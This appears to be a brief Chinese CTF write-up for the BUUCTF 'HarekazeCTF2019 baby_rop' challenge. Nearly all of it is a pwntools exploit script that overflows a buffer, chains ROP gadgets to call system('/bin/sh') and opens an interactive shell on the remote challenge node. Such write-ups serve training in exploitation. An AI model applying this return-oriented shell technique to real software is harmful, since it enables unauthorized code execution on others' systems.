 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[HarekazeCTF2019]baby_rop)

checksec



# exp

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('node5.buuoj.cn',27632)
#p=process('./babyrop')
elf=ELF('./babyrop')

bin_addr = 0x601048
system_addr = elf.sym['system']
ret_addr=0x400479
pop_rdi=0x400683
payload=flat(b'A'*0x18,p64(ret_addr),p64(pop_rdi),p64(bin_addr),p64(system_addr))

p.recv()
p.sendline(payload)
p.interactive()
```

